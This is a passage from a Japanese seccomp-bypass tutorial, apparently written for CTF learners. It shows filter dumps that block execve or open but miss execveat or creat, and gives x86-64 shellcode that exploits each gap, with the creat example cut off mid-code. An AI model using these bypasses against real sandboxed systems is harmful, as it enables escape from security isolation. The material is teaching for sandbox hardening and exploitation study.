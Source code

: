 ### openatとexecveat
まず典型的なミスは、`execve`や`open`だけ禁止して、`execveat`や`openat`などの同等の機能を備えたマイナーなシステムコールを禁止し忘れるパターンです。
次のルール（`01-filter`）を見てみましょう。
```
$ make 01-filter
$ seccomp-tools dump ./lu-seccomp
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x04 0xc000003e  if (A != ARCH_X86_64) goto 0006
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x02 0x00 0x40000000  if (A >= 0x40000000) goto 0006
 0004: 0x15 0x01 0x00 0x0000003b  if (A == execve) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x06 0x00 0x00 0x00000000  return KILL
```
`execve`を禁止していますが、`execveat`が許可されています。したがって、次のようなコードで任意コマンド実行できます。
```asm
xor r10d, r10d
xor eax, eax
push rax
lea rsi, [rel argv1]
push rsi
lea rsi, [rel argv0]
push rsi
mov rdx, rsp
mov edi, -100
mov eax, {syscall.x64.execveat}
syscall

argv0: db "/bin/ls", 0
argv1: db "-lha", 0
```
なお、**seccompルールは子プロセスにも引き継がれる**ため、`/bin/sh`のように内部で`execve`を使うプログラムは起動しても意味がありません。

### creatとprocfs
次のルール（`02-filter`）を見てみましょう。
```
$ make 02-filter
$ seccomp-tools dump ./lu-seccomp 
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x06 0xc000003e  if (A != ARCH_X86_64) goto 0008
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x04 0x00 0x40000000  if (A >= 0x40000000) goto 0008
 0004: 0x15 0x03 0x00 0x00000002  if (A == open) goto 0008
 0005: 0x15 0x02 0x00 0x00000101  if (A == openat) goto 0008
 0006: 0x15 0x01 0x00 0x000001b5  if (A == 0x1b5) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x06 0x00 0x00 0x00000000  return KILL
```
seccomp-toolsは新しいシステムコールをうまく表示できないことがありますが、line 6は`openat2`を禁止しています。`creat`が禁止されていないので、これを使ってファイルが読めるでしょうか。
```
mov esi, 0400
lea rdi, [rel pathname]
mov eax, {syscall.x64.creat}
syscall
test rax, rax
jl error

mov edx, 0x100
mov rsi, rsp
```

[^1]: Dockerで該当脆弱性があり、Shockerという名前で有名です。